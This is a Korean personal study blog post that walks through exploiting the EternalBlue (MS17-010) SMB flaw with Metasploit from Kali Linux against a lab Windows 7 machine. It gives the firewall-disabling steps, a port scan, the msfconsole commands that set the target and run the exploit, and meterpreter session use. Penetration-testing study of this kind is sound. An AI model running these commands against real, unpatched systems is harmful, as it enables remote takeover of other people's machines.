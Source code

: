 ```yaml
---
title:  "[Kali] EternalBlue 사용법"  

categories:
  - Tools
tags:
  - [Kali, Linux, EternalBlue]
date: 2022-09-01
last_modified_at: 2022-09-01
---
```

## 1️⃣ EternalBlue란?

- 윈도우 시스템의 SMB 프로토콜의 원격코드 실행 취약점(MS17-010, SMBv1)을 이용하여 루트 쉘을 얻는 해킹 도구
- 섀도우 브로커즈 해킹 그룹에 의해 유출된 미 국가안보국의 해킹 도구

<br>

## 2️⃣ 모의해킹 준비물
- 칼리리눅스
- 윈도우7 설치[Window7 순정 iso](https://drive.google.com/file/d/1V42632aqwgiWqif2GoTvjB3i1vviI5tc/view?usp=sharing)

칼리리눅스에 내장되어있는 metasploit를 사용

MS17-010취약점에 대한 보안패치가 이루어지지 않은 윈도우 버전 사용

<br>

## 3️⃣ 공격 시나리오

1. 공격자는 웹서비스 또는 클라이언트 접속 프로그램을 운영 중인 서버에 대해 포트 스캔
2. SMB PORT(445/tcp Microsoft-ds) 열려있는 것을 확인
3. 공격자는 MS17-010 취약점을 이용하여 공격
4. 공격 결과로 서버 루트 계정 쉘 획득 

<br>

## 4️⃣ 취약한 윈도우 환경 세팅
1. 제어판 -> 시스템 및 보안 -> Windows 방화벽 -> Windows 방화벽 설정 또는 해제 
2. 방화벽 설정 모두 해제
![방화벽](../../imgs/모의해킹/방화벽.png)

<br>

## 5️⃣ 모의해킹
윈도우를 취약하게 만들었으니 공격을 해보자

1. 윈도우의 IP주소 확인
- cmd프롬프트 실행 -> ipconfig 입력
![ipconfig](../../imgs/모의해킹/ipconfig.png)
2. 칼리리눅스에서 포트스캔 진행
![PortScan](../../imgs/모의해킹/포트스캔.png)
445포트에 microsoft-ds가 서비스 중인 것을 확인
3. metasploit을 통해 EternalBlue를 사용해 공격을 진행
- msfconsole에서 eternalblue검색 후 선택
```bash
kali@kali:~$ msfconsole
msf6 > search eternalblue
msf6 > use 0
```
![console1](../../imgs/모의해킹/콘솔1.png)
- 옵션 설정
```bash
msf6 > show options
msf6 > set RHOSTS 192.168.27.137
```
![console2](../../imgs/모의해킹/콘솔2.png)
- Exploit
```bash
msf6 > exploit -j
```
![exploit](../../imgs/모의해킹/exploit.png)
- 확인
```bash
msf6 > sessions
msf6 > sessions 1
meterpreter > cd /
meterpreter > cd Users/minsu/Desktop
meterpreter > mkdir hacking
```
![session1](../../imgs/모의해킹/session1.png)
![session2](../../imgs/모의해킹/session2.png)
> 성공!!!!!!!!!!!!

***
<br>

    🌜 개인 공부 기록용 블로그입니다. 오류나 틀린 부분이 있을 경우 
    언제든지 댓글 혹은 메일로 지적해주시면 감사하겠습니다! 😄

[맨 위로 이동하기](#){: .btn .btn--primary }{: .align-right}